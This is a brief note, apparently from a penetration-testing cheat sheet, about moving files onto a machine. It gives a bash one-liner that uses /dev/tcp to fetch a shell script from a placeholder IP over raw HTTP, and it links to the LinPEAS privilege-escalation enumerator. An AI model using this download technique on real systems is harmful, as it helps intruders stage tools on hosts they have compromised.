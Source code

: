 bash scrip to transfer a file 

```sh
bash -c "exec 3<>/dev/tcp/IP/80; echo -e 'GET /youfile.sh HTTP/1.1\r\nHost: ip\r\nConnection: close\r\n\r\n' >&3; cat <&3 > yourfile.sh"
```

Linpeas one liner - https://github.com/peass-ng/PEASS-ng/blob/master/linPEAS/README.md#one-liner-enumerator